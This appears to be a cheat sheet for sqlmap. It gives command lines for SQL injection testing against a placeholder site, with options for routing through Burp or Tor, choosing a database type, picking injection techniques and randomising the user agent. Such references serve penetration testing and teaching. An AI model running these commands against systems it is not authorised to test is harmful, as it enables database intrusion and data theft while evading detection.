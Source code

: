 ## Proxy through Burpsuite
```sh
sqlmap -u “https://target_site.com/page?p1=value1” --proxy="http://127.0.0.1:8080/"
```
## Use Tor Socks5 proxy
```sh
sqlmap -u “https://target_site.com/page?p1=value1” --tor --tor-type=SOCKS5 --check
```
## Extra

### Specify The Database Type
```sh
sqlmap -u “https://target_site.com/page?p1=value1” --dbms=mysql
```

You can use other DBMS types like MySQL, Oracle, PostgreSQL, Microsoft SQL Server, Microsoft Access, IBM DB2, SQLite, Firebird, Sybase, SAP MaxDB, Informix, MariaDB, Percona, MemSQL, TiDB, CockroachDB, HSQLDB, H2, MonetDB, Apache Derby, Amazon Redshift, Vertica, Mckoi, Presto, Altibase, MimerSQL, CrateDB, Greenplum, Drizzle, Apache Ignite, Cubrid, InterSystems Cache, IRIS, eXtremeDB, FrontBase, etc.

## Attack Techniques

`–technique` Specify a letter or letters of BEUSTQ to control the exploit attempts:

```
B: `Boolean-based blind`

E: `Error-based`

U: `Union query-based`

S: `Stacked queries`

T: `Time-based blind`

Q: `Inline queries`
```

```sh
sqlmap -u “https://target_site.com/page?p1=value1” --technique=BEUSTQ
```

### Basic

	sqlmap -u <url> -u "<URL>"
	
	sqlmap -u <url> -p "<PARAM TO TEST>"
	
	sqlmap -u <url> --user-agent=SQLMAP
	
	sqlmap -u <url> --random-agent
	